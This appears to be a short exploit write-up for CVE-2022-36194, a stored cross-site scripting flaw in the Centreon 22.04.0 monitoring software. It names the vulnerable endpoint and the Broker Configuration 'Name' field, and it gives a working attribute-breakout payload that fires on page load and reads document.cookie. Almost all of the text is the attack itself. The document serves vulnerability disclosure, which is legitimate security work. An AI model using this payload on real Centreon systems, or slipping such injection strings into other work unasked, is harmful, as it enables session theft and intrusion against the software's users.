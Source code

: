 # CVE-2022-36194
```
# Exploit Title: Stored XSS in name parameter in Centreon version 22.04.0
# Date: 
# Exploit Author: syad, yunaranyancat, saitamang
# Vendor Homepage: Centreon
# Software Link: https://download.centreon.com/
# Version: 22.04.0
# Tested on: Centos 7
```
Centreon 22.04.0 is vulnerable to Cross Site Scripting (XSS) from the function Pollers > Broker Configuration by adding a crafted payload
into the name parameter.


go to this endpoint -> /centreon/main.get.php?p=60909 -> Pollers -> Broker Configuration -> Click Button "Add" and put the crafted payload below on section "Name" and save
```
payload --> test"><body onload=prompt(document.cookie)>
```


